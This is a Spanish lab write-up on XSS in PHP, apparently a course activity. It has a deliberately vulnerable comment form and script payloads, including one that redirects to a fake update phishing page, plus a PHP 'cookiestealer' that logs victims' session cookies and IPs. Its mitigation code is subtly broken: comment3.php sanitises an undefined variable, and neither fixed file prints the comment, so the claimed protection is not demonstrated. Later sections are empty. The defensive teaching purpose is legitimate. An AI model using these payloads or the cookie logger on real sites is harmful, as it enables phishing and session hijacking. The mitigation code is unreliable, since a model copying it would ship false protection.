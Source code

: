 # PPS-Unidad3Actividad5-XSS

## Creación de página vulnerable

Partiendo del entorno de pruebas de la actividad 1 en la carpeta `www` creamos el directorio `xss` que contendrá el fichero `comment.php` con el siguente contenido:

```
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```

El codigo muestra un formulario simple sin securizar el cual explotaremos.

![comment php](images/comment-php.png)


## Explotación XSS

### Explotación 1

En el formulario introducimos el siguiente código JS para ejemplificar que el formulario no está securizado:
```
<script>alert('XSS ejecutado!')</script>
```

Al enviar el formulario se mostrá un alert.

![alert comment php](images/alert-comment-php.png)

### Explotación 2

Con el siguiente código se redireccionará a una página de phishing:
```
<script>window.location='https://fakeupdate.net/win11/'</script>
```

![comment phishing](images/comment-phishing.png)

![comment phishing 2](images/comment-phishing-2.png)

## Captura cookie usuario

Creamos en el servidor web una carpeta con nombre `cookiestealer`, el cual contendrá elfichero `cookies.txt` que almacenará la cookie y el fichero `index.php` con el siguiente código encargado de capturar y guardar la cookie de sesión:

```
<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
```

![cookiestealer files](images/cookiestealer-files.png)

Acedemos a la URL 

## Mitigación ataque XSS

Filtra caracteres problemáticos empleando la función PHP `filter_input()`.

Creamos el fichero `comment2.php` con el siguiente código:

```
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
```

Accedemos al fichero que hemos creado desde el navegador y ejecutamos uno de los scripts anteriores, vemos como no se han ejecutado.

![comment2](images/coment2.png)


## Sanitizar la entrada con htmlspecialchars()

Creamos el fichero `comment3.php` con el siguiente código:
```
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```
Empleado la función PHP `htmlspecialchars()` convierte los carácteres especiales en código HTML evitando la ejecución de scripts.

![comment3](images/comment3.png)


## Validación de entrada


## Protección contra inyecciones HTML y JS (XSS)


## Protección contra ataques CSRF

### Código Seguro